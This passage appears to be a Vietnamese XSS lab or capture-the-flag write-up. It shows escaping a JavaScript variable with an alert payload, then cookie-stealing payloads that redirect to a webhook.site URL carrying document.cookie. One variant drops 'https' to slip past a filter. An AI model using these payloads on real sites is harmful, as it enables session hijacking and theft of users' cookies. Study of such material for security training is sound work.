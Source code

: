 Tham số sẽ được lưu trong biến `number`

Thử thoát khỏi biến number và alert

payload: `'-alert(1)//`

![image.png](Images/image%2033.png)

alert thành công

Thử truyền payload lấy cookie thì web lại hiện ra thông báo

payload: `'-document.location='[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)'.concat(document.cookie)//`

![image.png](Images/image%2034.png)

Có thể thử encode hoặc bỏ luôn `https` trong payload để bypass được filter này

payload: `'-document.location='[//webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)'.concat(document.cookie)//`

—> Không có gì xảy ra

![image.png](Images/image%2035.png)
